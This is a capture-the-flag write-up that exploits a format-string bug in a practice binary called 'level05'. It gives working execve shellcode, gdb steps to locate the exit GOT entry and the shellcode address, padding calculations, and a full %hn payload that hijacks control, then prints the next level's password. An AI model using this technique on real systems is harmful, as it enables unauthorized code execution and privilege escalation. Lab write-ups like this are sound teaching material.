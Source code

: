 Program behavior:
1. Reads from stdin to a buffer using `fgets` function;
2. Converts each upper case letter to lower case;
3. Calls `printf` with a buffer as a single argument.
4. Terminates by calling `exit` function.

Solution:
Call a shellcode by overwriting the GOT address of `exit` function with the address of enviroment variable.

# Store a shellcode inside the enviroment variable
export SHELLCODE=`python -c 'print "\x90" * 42 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
# Launch the debugger
gdb level05
# Check the GOT address of exit function
x/i exit
`0x8048370 <exit@plt>:        jmp    *0x80497e0`
# Run the debugged program
start
# Check the SHELLCODE address
x/s *environ
`0xffffd8a9:      "SHELLCODE=(...)`
# Add some bytes to hit a NOP sled
print/a *environ + 15
`$1 = 0xffffd8b8`
# Split the address in a half (since it too big for an integer)
`0xffffd8b8 -> 0xffff and 0xd8b8`
# Calculate padding
print/d 0xd8b8 - 0x4 - 0x4
`$2 = 55472`
print/d 0xffff - 0xd8b8
`$3 = 10055`
# Quit the debugger
quit
# Get the buffer offset
python -c 'print("B" * 4 + " %p" * 10)' | ./level05
`bbbb 0x64 0xf7fcfac0 (nil) (nil) (nil) (nil) 0xffffffff 0xffffd6e4 0xf7fdb000 0x62626262`
# Initiate format string attack
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55472d%10$hn" + "%10055d%11$hn")'; cat) | ./level05
# Check the flag
cat /home/users/level06/.pass
`h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`
